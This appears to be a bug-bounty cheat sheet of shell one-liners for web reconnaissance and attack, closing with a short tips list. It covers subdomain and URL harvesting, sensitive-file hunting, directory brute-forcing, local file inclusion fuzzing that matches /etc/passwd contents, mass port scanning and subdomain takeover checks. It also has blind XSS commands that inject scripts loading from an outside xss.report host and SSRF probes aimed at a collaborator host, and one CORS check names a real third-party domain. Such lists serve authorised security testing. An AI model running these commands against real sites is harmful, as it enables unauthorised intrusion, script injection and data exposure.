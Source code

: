 
Web Security

subfinder -d example.com -all -recursive > subdomain.txt

For finding subdomains

cat subdomain.txt | httpx-toolkit -ports 80,443,8080,8000,8888 -threads 200 > subdomains_alive.txt

For filter out live subdomains

katana -u subdomains_alive.txt -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -kf -jc -fx -ef woff,css,png,svg,jpg,woff2,jpeg,gif,svg -o allurls.txt

For fetching passive urls

cat allurls.txt | grep -E '\.xls|\.xml|\.xlsx|\.json|\.pdf|\.sql|\.doc|\.docx|\.pptx|\.txt|\.zip|\.tar\.gz|\.tgz|\.bak|\.7z|\.rar|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.gz|\.config|\.csv|\.yaml|\.md|\.md5'

For finding sensitive files

echo example.com | katana -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | urldedupe >output.txt

For fetch and sorting urls - part 1

katana -u https://example.com -d 5 | grep '=' | urldedupe | anew output.txt

For fetch and sorting urls - part 2

cat output.txt | sed 's/=.*/=/' >final.txt

For fetch and sorting urls - part 3

echo example.com | gau --mc 200 | urldedupe >urls.txt

For fetch and sorting urls - part 4

cat urls.txt | grep -E '.php|.asp|.aspx|.jspx|.jsp' | grep '=' | sort > output.txt

For fetch and sorting urls - part 5

cat output.txt | sed 's/=.*/=/' >final.txt

For fetch and sorting urls - part 6

arjun -u https://site.com/endpoint.php -oT arjun_output.txt -t 10 --rate-limit 10 --passive -m GET,POST --headers 'User-Agent: Mozilla/5.0'

For finding hidden parameter - part 1

arjun -u https://site.com/endpoint.php -oT arjun_output.txt -m GET,POST -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -t 10 --rate-limit 10 --headers 'User-Agent: Mozilla/5.0'

For finding hidden parameter - part 2

curl -H 'Origin: http://example.com' -I https://etoropartners.com/wp-json/

For checking CORS - part 1

curl -H 'Origin: http://example.com' -I https://etoropartners.com/wp-json/ | grep -i -e 'access-control-allow-origin' -e 'access-control-allow-methods' -e 'access-control-allow-credentials'

For checking CORS - part 2

site:*.example.com (ext:doc OR ext:docx OR ext:odt OR ext:pdf OR ext:rtf OR ext:ppt OR ext:pptx OR ext:csv OR ext:xls OR ext:xlsx OR ext:txt OR ext:xml OR ext:json OR ext:zip OR ext:rar OR ext:md OR ext:log OR ext:bak OR ext:conf OR ext:sql)

Information Disclosure dork

wpscan --url https://site.com --disable-tls-checks --api-token <here> -e at -e ap -e u --enumerate ap --plugins-detection aggressive --force

Wordpress aggressive scanning

echo 'https://example.com/' | gau | gf lfi | uro | sed 's/=.*/=/' | qsreplace 'FUZZ' | sort -u | xargs -I{} ffuf -u {} -w payloads/lfi.txt -c -mr 'root:(x|\*|\$[^\:]*):0:0:' -v

LFI methodology

dirsearch -u https://example.com -e php,cgi,htm,html,shtm,shtml,js,txt,bak,zip,old,conf,log,pl,asp,aspx,jsp,sql,db,sqlite,mdb,tar,gz,7z,rar,json,xml,yml,yaml,ini,java,py,rb,php3,php4,php5 --random-agent --recursive -R 3 -t 20 --exclude-status=404 --follow-redirects --delay=0.1

Directory Bruteforce - part 1

ffuf -w seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u https://example.com/FUZZ -fc 400,401,402,403,404,429,500,501,502,503 -recursion -recursion-depth 2 -e .html,.php,.txt,.pdf,.js,.css,.zip,.bak,.old,.log,.json,.xml,.config,.env,.asp,.aspx,.jsp,.gz,.tar,.sql,.db -ac -c -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'X-Forwarded-For: 127.0.0.1' -H 'X-Originating-IP: 127.0.0.1' -H 'X-Forwarded-Host: localhost' -t 100 -r -o results.json

Directory Bruteforce - part 2

echo example.com | katana -d 5 | grep -E '\.js$' | nuclei -t nuclei-templates/http/exposures/ -c 30

JS File hunting - part 1

cat alljs.txt | nuclei -t /home/coffinxp/nuclei-templates/http/exposures/

JS File hunting - part 2

subzy run --targets subdomains.txt --concurrency 100 --hide_fails --verify_ssl

For Checking Subdomain takeover

python3 corsy.py -i subdomains_alive.txt -t 10 --headers 'User-Agent: GoogleBot\nCookie: SESSION=Hacked'

For finding CORS

subfinder -d example.com | gau | bxss -payload ''><script src=https://xss.report/c/coffinxp></script>' -header 'X-Forwarded-For'

For testing header based blind xss

echo 'example.com ' | gau | qsreplace '<sCript>confirm(1)</sCript>' | xsschecker -match '<sCript>confirm(1)</sCript>' -vuln

For checking single xss on all urls

subfinder -d example.com | gau | grep '&' | bxss -appendMode -payload ''><script src=https://xss.report/c/coffinxp></script>' -parameters

For finding Blind xss

echo domain | gau | grep -Eo '(\/[^\/]+)\.(php|asp|aspx|jsp|jsf|cfm|pl|perl|cgi|htm|html)$' | httpx -status-code -mc 200 -content-type | grep -E 'text/html|application/xhtml+xml'

Content-type Filter - part 1

Ssl.cert.subject.CN:'example.com' 200

Shodan dork

echo https://example.com/ | gau | gf xss | uro | Gxss | kxss | tee xss_output.txt

XSS method - part 1

cat xss_output.txt | grep -oP '^URL: \K\S+' | sed 's/=.*/=/' | sort -u > final.txt

XSS method - part 2

naabu -list ip.txt -c 50 -nmap-cli 'nmap -sV -SC' -o naabu-full.txt

Naabu scan

nmap -p- --min-rate 1000 -T4 -A target.com -oA fullscan

Nmap scan

masscan -p0-65535 target.com --rate 100000 -oG masscan-results.txt

Masscan

ffuf -request lfi -request-proto https -w /root/wordlists/offensive\ payloads/LFI\ payload.txt -c -mr 'root:'

FFUF request file method - part 1

ffuf -request xss -request-proto https -w /root/wordlists/xss-payloads.txt -c -mr '<script>alert('XSS')</script>'

FFUF request file method - part 2

cat domains.txt | assetfinder --subs-only| httprobe | while read url; do xss1=$(curl -s -L $url -H 'X-Forwarded-For: xss.yourburpcollabrotor'|grep xss) xss2=$(curl -s -L $url -H 'X-Forwarded-Host: xss.yourburpcollabrotor'|grep xss) xss3=$(curl -s -L $url -H 'Host: xss.yourburpcollabrotor'|grep xss) xss4=$(curl -s -L $url --request-target http://burpcollaborator/ --max-time 2); echo -e '\e[1;32m$url\e[0m''\n''Method[1] X-Forwarded-For: xss+ssrf => $xss1''\n''Method[2] X-Forwarded-Host: xss+ssrf ==> $xss2''\n''Method[3] Host: xss+ssrf ==> $xss3''\n''Method[4] GET http://xss.yourburpcollabrotor HTTP/1.1 ''\n';done

XSS and SSRF testing with headers

echo 'https://example.com/index.php?page=' | httpx-toolkit -paths payloads/lfi.txt -threads 50 -random-agent -mc 200 -mr 'root:(x|\*|\$[^\:]*):0:0:'

LFI methodology - alternative method

### Tips & Best Practices

- Always verify live subdomains before further testing
- Use rate limiting to avoid getting blocked
- Combine passive and active recon for better results
- Check for common misconfigurations in cloud services
- Monitor for sensitive data exposure in public files
- Verify potential vulnerabilities before reporting
- Use multiple tools to ensure comprehensive coverage
- Document your findings and methodology